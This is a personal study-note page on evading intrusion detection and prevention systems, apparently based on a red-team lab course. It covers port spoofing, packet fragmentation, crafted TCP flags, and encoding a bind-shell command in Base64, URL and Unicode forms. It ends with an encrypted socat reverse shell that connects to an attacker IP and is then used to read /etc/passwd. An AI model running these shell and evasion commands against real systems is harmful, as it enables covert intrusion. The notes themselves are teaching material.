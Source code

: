 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/red-teaming/ids-ips/"}
---
```







- Intrusion Detection System / Intrusion Prevention System
- The IDS/IPS system might be configured to block certain protocols and allow others. For instance, you might consider using UDP instead of TCP or rely on HTTP instead of DNS to deliver an attack or exfiltrate data.

## ==**Manipulate (Source) TCP/UDP Port**==

- Without deep packet inspection, the port numbers are the primary indicator of the service used.
- In other words, network traffic involving TCP port 22 would be interpreted as SSH traffic unless the security solution can analyze the data carried by the TCP segments.

## ==Use Session Splicing (IP Packet Frag)==

- The assumption is that if you break the packet(s) related to an attack into smaller packets, you will avoid matching the IDS signatures.
    - If the IDS is looking for a particular stream of bytes to detect the malicious payload, divide your payload among multiple packets. Unless the IDS reassembles the packets, the rule won’t be triggered.
- Suppose you want to force all your packets to be fragmented into specific sizes. In that case, you should consider using a program such as [Fragroute](https://www.monkey.org/~dugsong/fragroute/).
    - `fragroute` can be set to read a set of rules from a given configuration file and applies them to incoming packets.

## ==Sending Invalid Packets==

- Nmap also lets you send packets with custom TCP flags, including invalid ones. The option `--scanflags` lets you choose which flags you want to set.
    - `URG` for Urgent
    - `ACK` for Acknowledge
    - `PSH` for Push
    - `RST` for Reset
    - `SYN` for Synchronize
    - `FIN` for Finish

## ==Payload Manipulation==

### **Encode to Base64 format**

- Can use one of the many online tools that encode your input to Base64. Alternatively, we can use `base64` commonly found on Linux systems.

```Shell
cat input.txt
ncat -lvnp 1234 -e /bin/bash

base64 input.txt
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
```

### URL Encoding

- URL encoding converts certain characters to the form %HH, where HH is the hexadecimal ASCII representation. English letters, period, dash, and underscore are not affected.

```Shell
urlencode ncat -lvnp 1234 -e /bin/bash
```

### Use Escaped Unicode

- Some applications will still process your input and execute it properly if you use escaped Unicode. There are multiple ways to use escaped Unicode depending on the system processing the input string.
- It is clearly a drastic transformation that would help you evade detection, assuming the target system will interpret it correctly and execute it.
- `ncat -lvnp 1234 -e /bin/bash` becomes
    -  `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`

## Encrypt Communication Channel

- Because an IDS/IPS won’t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.
- One direct approach is to create the necessary encryption key on the attacker’s system and set `socat` to use the encryption key to enforce encryption as it listens for incoming connections.

`openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt`

- Listening on the victim system, we execute this :

```Shell
socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```

- On attacker’s system, run cat /etc/passwd

```Shell
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
```